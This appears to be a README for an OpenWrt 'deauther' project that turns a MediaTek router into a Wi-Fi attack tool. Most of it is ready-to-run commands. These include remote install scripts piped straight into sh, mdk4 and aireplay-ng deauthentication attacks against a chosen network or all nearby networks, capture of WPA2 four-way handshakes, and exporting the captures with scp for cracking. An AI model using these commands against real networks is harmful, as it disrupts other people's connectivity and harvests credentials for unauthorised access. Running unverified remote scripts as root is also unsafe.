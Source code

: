 # Requirements 
- Mediatek MT7628* chipset router
- Mipsel-24kc package
- Openwrt firmware version 22.03.*

# Install package 
```
opkg update && opkg install airmon-ng airodump-ng aircrack-ng
```
# Install mdk4
> (mipsel_24kc)
```sh
opkg update && wget -O mdk4.ipk https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/mdk4_4.2-5_mipsel_24kc.ipk && opkg install mdk4.ipk
```

# Notes
- Functions similar on linux aircrack-ng aireplay-ng and mdk4
- Can also capture WPA2 WPAWPA2PSK Handshakes
- Doesn't work on openwrt version 23.*.* up

# Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```

# Auto Install
```sh
opkg update && wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/install | sh
````
# Install Monitor Mode
```sh
wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/wlan0mon | sh
```
# Run monitor mode
> script
```
iw phy phy0 interface add wlan0mon type monitor
ip link set wlan0mon up
```
> short
```sh
sh wlan0mon
```
# Enable full monitor mode using airmon-ng (optional)
```
airmon-ng start wlan0
```
# Scan wifi from the terminal
```
iw wlan0 scan | grep BSS
```
# Scan wifi using airodump-ng
```
sh wlan0mon && airodump-ng wlan0mon
```
# Deauth attack using mdk4
> 1.Enable monitor mode
```
sh wlan0mon && airodump-ng wlan0mon
```
> 2.Deauth a specific target BSSID
```
mdk4 wlan0mon d -B (BSSID) -m
```
> 3.Deauth all
```
mdk4 wlan0mon d
```
# Deauth attack using aireplay-ng
> 1.Enable the monitor mode
```
sh wlan0mon && airodump-ng wlan0mon
```
> 2.Deauth a specific BSSID
```
aireplay-ng wlan0mon --deauth 0 -a (BSSID) --ignore-negative-one
```
-------
# Capture the 4way handshakes
> 1.Listen to a specific bssid
```
airodump-ng -c (channel) --bssid (BSSID) -w handshake wlan0mon
```
> 2.Open a new terminal to deauth the BSSID
```
aireplay-ng wlan0mon --deauth 0 -a (BSSID) --ignore-negative-one
```
# Export the handshake
> [!Tip]
> install SFTP server on both system in order that SCP to work

> Openwrt: `opkg install openssh-sftp-server`

> Linux/Termux: `apt install openssh-sftp-server`

- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Download
```

# More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help
 - mdk4 --help
